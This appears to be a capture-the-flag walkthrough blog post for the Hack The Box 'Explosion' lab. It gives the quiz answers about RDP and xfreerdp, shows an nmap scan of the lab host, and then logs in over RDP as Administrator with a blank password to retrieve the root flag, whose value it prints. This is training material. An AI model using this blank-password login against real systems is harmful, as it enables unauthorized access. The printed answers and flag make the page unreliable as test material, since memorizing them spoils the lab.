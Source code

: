 ```yaml
---

title: "Explosion"
date: 2022-05-12 01:09:33 +0300
author: oste
image: /assets/img/Posts/explosion.png
categories: [HTB, Starting Point, Tier 0]
tags: [windows, xfreerdp, rdp]
---
```


#### What does the 3-letter acronym RDP stand for?

`Remote Desktop Protocol`

#### What is a 3-letter acronym that refers to interaction with the host through a command line interface?

`CLI`

#### What about graphical user interface interactions?

`GUI`

#### What is the name of an old remote access tool that came without encryption by default?

`Telnet`

#### What is the concept used to verify the identity of the remote host with SSH connections?

`Public-Key cryptography`

#### What is the name of the tool that we can use to initiate a desktop projection to our host using the terminal?

`xfreerdp`

#### What is the name of the service running on port 3389 TCP?

```bash
➜  nmap -sC -sV -p- -Pn -T4 10.129.154.204
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-22 09:09 EST
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.129.154.204 (10.129.154.204)
Host is up (0.24s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2021-12-22T14:26:19+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2021-09-20T16:22:34
|_Not valid after:  2022-03-22T16:22:34
|_ssl-date: 2021-12-22T14:26:31+00:00; +3s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-12-22T14:26:21
|_  start_date: N/A
|_clock-skew: mean: 2s, deviation: 0s, median: 2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1048.58 seconds
```

`ms-wbt-server`

#### What is the switch used to specify the target host's IP address when using xfreerdp?

```bash
➜  xfreerdp -h

FreeRDP - A Free Remote Desktop Protocol Implementation
See www.freerdp.com for more information

Usage: xfreerdp [file] [options] [/v:<server>[:port]]

```

`/v:`

#### Submit root flag

Logging in as an Administrator without specifying the password, we can get the flag on the desktop as shown below.

```bash
➜  xfreerdp /v:10.129.154.204 /cert:ignore /u:Administrator
[09:34:40:835] [2284:2285] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[09:34:40:835] [2284:2285] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[09:34:40:835] [2284:2285] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[09:34:40:835] [2284:2285] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
[09:34:40:204] [2284:2285] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized
[09:34:40:231] [2284:2285] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[09:34:40:231] [2284:2285] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state
Password:
[09:34:57:717] [2284:2285] [INFO][com.winpr.sspi.NTLM] - VERSION ={
[09:34:57:717] [2284:2285] [INFO][com.winpr.sspi.NTLM] -        ProductMajorVersion: 6
[09:34:57:717] [2284:2285] [INFO][com.winpr.sspi.NTLM] -        ProductMinorVersion: 1
[09:34:57:717] [2284:2285] [INFO][com.winpr.sspi.NTLM] -        ProductBuild: 7601
[09:34:57:717] [2284:2285] [INFO][com.winpr.sspi.NTLM] -        Reserved: 0x000000
[09:34:57:718] [2284:2285] [INFO][com.winpr.sspi.NTLM] -        NTLMRevisionCurrent: 0x0F
...snip...
```

![image](https://user-images.githubusercontent.com/58165365/147109143-24a61df9-77ca-4def-8f6c-9931fe8d8172.png)

`HTB{951fa96d7830c451b536be5a6be008a0}`
